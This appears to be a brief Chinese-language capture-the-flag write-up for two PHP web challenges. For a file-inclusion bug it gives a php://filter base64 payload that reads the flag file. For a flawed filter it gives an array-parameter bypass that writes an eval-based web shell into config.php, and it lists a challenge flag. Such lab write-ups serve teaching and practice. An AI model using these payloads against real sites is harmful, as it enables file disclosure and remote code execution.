 # BW OJ 7.30思考

## Web

### BasicFileInclude

能看出是个文件包含漏洞，点击Flag可以看到URL有/?page=flag，考虑使用php伪协议，构造payload：`?page=php://filter/read=convert.base64-encode/resource=flag`

得到base64编码，再解码后得到flag

### Basic PHP 2

题目给出的代码如下：

```php
<?php
if(isset($_GET['content'])){
  $filename = 'config.php';
  $content = $_GET['content'];

  if(is_int(stripos($content, 'php')) || is_int(stripos($content, '<'))) {
    echo 'Invalid input';
  } else {
    file_put_contents($filename, $content);
    echo 'Success';
  }
}
```

接收来自 GET 请求的 `content` 参数，如果参数中不包含 `'php'` 和 `'<'`，则将参数的值写入 `config.php` 文件中并返回成功信息。如果参数中包含 `'php'` 或 `'<'`，则输出 `'Invalid input'` 表示拒绝写入。

考虑传入一个content数组，这样stripos函数会返回false，绕过is_int的检查

构造payload：`/index.php?content[]=<?php eval($_GET['a']);`

得到flag： `flag{pwnhub_first_shalon_ctf_web_php}`